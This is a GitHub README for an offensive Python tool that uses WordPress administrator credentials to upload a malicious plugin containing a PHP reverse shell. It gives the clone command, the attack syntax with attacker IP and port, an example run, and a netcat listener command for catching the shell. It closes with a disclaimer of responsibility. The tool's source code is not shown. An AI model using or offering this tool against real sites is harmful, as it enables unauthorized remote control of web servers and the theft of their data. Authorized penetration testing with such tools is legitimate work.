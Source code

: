 
<div align="center">

  ![LOGO](https://github.com/JoaoPedroMoreira02/Pwn_Wordpress/assets/103542430/7c6e38fe-7fda-4f97-9da1-b1a619f975d2)    
  
  [![License: GPL-2.0](https://img.shields.io/badge/License-GPL--2.0-blue.svg)](https://opensource.org/licenses/GPL-2.0)
  
  <img src="https://img.shields.io/badge/Language%20-Python3-green.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Tool%20-Shell upload | reverse shell-brown.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Target OS%20-Linux-yellow.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square" style="max-width: 100%;">  
  <img src="https://img.shields.io/badge/Type%20-Script-red.svg" style="max-width: 100%;">

</div>

# Evil Wordpress Plugin (Malicious)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password and check if the target user has Administrator permissions.

Install by running:

```bash
  git clone https://github.com/Jsmoreira02/Pwn_Wordpress.git
```
    
## Parameters [Running Script]

### Attacking the Target Website: ###

![ezgif com-video-to-gif(1)](https://github.com/Jsmoreira02/Pwn_Wordpress/assets/103542430/532470ab-161f-487d-a59b-f3d0d7366c25)


- **The speed depends on your connection, check the stability of your connection in case there is a slowdown in execution**


```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

**Executing Handler**

```bash 
nc -lvp {LOCAL PORT}
```

**Help section (-h)**

```bash
usage: Malicious.py [-h] [-t] [-u] [-p] [-L] [-P]

Wordpress Malicious plugin upload

options:
  -h, --help        show this help message and exit
  -t , --target     Target URL
  -u , --username   Wordpress Username
  -p , --password   Wordpress Password
  -L , --LHOST      Attacker IP address
  -P , --LPORT      Attacker LOCAL PORT

./app.py -t http://domain_name.com/wordpress -u User_FOX -p Pass -L 192.168.20.2 -P 4040 

```


### In case of complications or disconnection issues, you can just manually trigger the connection at the URL link given by the program ###

 
***---> Correct Syntax: "http://IP/wordpress | Wrong syntax: http://IP/wordpress/ <---***

## 

- ***Good hacking :)***

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It was written for fun, not evil and is intended to raise awareness about cybersecurity


